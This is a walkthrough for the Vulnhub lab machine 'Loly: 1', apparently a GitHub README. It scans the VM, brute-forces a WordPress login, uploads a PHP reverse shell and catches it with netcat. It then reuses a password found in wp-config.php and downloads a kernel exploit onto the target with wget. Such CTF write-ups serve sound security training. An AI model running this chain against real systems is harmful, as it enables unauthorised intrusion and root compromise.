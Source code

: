 # Loly-1-Vulnhub-Walkthrough
Loly: 1 Vulnhub Walkthrough

**Description**


    Difficulty: Easy
    Tested: VMware Workstation 15.x Pro (This works better with VMware rather than VirtualBox)
    Goal: Get the root shell i.e.(root@localhost:~#) and then obtain flag under /root).
    Information: Your feedback is appreciated - Email: suncsr.challenges@gmail.com

    Name: Loly: 1
    Date release: 21 Aug 2020
    Author: SunCSR Team
    Series: Loly
Click [here](https://vulnhub.com/entry/loly-1,538/) to download the machine!

So let's begin hacking!!

**Step 1: Scan the machine**

> nmap -sV <IP_address_of_your_machine>

![Screenshot](1.png)

From the scan we can see that, port 80 is open. Let's explore port 80.

**Step 2: Go to machine's IP in web browser**

In your web browser

>http://<IP_address_of_your_machine>  

![Screenshot](2.png)

This doesn't help us much! Let's try bruteforcing the IP with dirb.

**Step 3: Bruteforce the IP with dirb**

> dirb http://<IP_address_of_your_machine> 

![Screenshot](3.png)

From the scan we can see that this is a wordpress site.

![Screenshot](4.png)

But the website is not properly responding, may be because of domain name mapping.

Hence, we need to add the entry in `/etc/hosts` file as shown in the image below. This entry will not only browse the page in an efficient way but will also help us to run wpscan on the next screen.

![Screenshot](5.png)

**Step 4: Run wpscan**

> wpscan --url http://<IP_address_of_your_machine> --enumerate u

![Screenshot](6.png)

![Screenshot](7.png)

From the scan we get to know the username `loly` , let's bruteforce it with wpscan.

**Step 5: Bruteforce the password**

> wpscan --url http://<IP_address_of_your_machine> -U loly -P /usr/share/wordlists/rockyou.txt

![Screenshot](8.png)

![Screenshot](9.png)

We successfully got the password for the username. Let's login with the credentials.

**Step 6: Login to wp-login**

In your browser
> http://<IP_address_of_your_machine>/wp-login

![Screenshot](10.png)

**Step 7: Exploiting**

Get the php reverse shell from [here](https://github.com/pentestmonkey/php-reverse-shell)

![Screenshot](11.png)

Uploading a php reverse shell but it's in zip format as the admin panel accepts zip format and automatically unzips the file.

**Step 8: Access the shell**

Start listening to the mentioned port and then open the shell in the browser

> nc -lvp 1234

![Screenshot](13.png)

![Screenshot](12.png)

After getting the shell, trying to get shell from python one-liner to get a clear picture.

> python3 -c 'import pty; pty.spawn("/bin/bash")'

![Screenshot](14.png)

![Screenshot](15.png)

From the `wp-config.php` file we got the password `lolyisabeautifulgirl`

Trying to get to know whom this password belongs to.

> cat /etc/passwd

![Screenshot](16.png)

Looks like it belongs to `loly`.

**Step 9: Privilage escalation**

Login to `loly`.

> su loly

Type `lolyisabeautifulgirl` for password

> lsb_release -a

The `lsb_release` command displays LSB (Linux Standard Base) information about specific Linux distribution, including version number, release codename, and distributor ID.

> uname a-

Next, we will run the `uname` command to know about the Linux kernel version and some other information so we should have enough evidence about the system for Privilege Escalation.

![Screenshot](17.png)

Now we know that Ubuntu 4.4.0 is running on the victim's machine. Let's try to find out the exploit related to this version.

> searchsploit ubuntu 4.4.0

> searchsploit -m 45010

![Screenshot](18.png)

> python -m SimpleHTTPServer

There is an exploit related to that version and we can use that.  We have to copy the exploit to the victim's machine for that we are using the python simple http server.

> wget http://<your_machine_ip>:8000/45010.c

In the reverse shell we obtained, we'll download the exploit file and compile it and we will use the `chmod` command to make the file readable, writable, and executable.

![Screenshot](19.png)

Move into the root folder and reveal the flag!!

![Screenshot](20.png)
